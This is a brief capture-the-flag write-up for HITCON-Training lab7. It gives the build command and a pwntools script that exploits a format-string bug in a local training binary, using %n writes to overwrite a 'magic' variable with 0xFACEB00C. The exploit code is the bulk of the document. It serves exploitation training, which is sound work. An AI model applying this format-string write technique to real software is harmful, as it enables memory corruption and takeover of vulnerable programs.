

# HITCON-Training lab7

## binary analysis

> Makefile
```
craxme:craxme.c
	gcc -m32 craxme.c -o craxme
```



## solve

```python
from pwn import *

context.arch = "i386"
context.log_level = "DEBUG"

p = process("./craxme")
e = ELF("./craxme")

libc = ELF("../libc.so.6")

magic_addr = 0x0804A038

payload = ""

## want1 = 0x0 0x0 0x0 0xDA
##  0 0 0 218
'''
payload += p32(magic_addr)

payload += "%08x%08x%08x%08x%08x"

payload += "%174c"
payload += "%n"
'''

## want2 = 0xFACE 0xB00C
##         64206  45068
payload += p32(magic_addr)
payload += "AAAA"
payload += p32(magic_addr+2)

payload += "%08x%08x%08x%08x%08x"

## 45068 - 52 = 45016
payload += "%45016c"
payload += "%n"

## 64206 - 45068 = 19138
payload += "%19138c"
payload += "%n"

p.sendlineafter("magic :", payload)

p.interactive()
```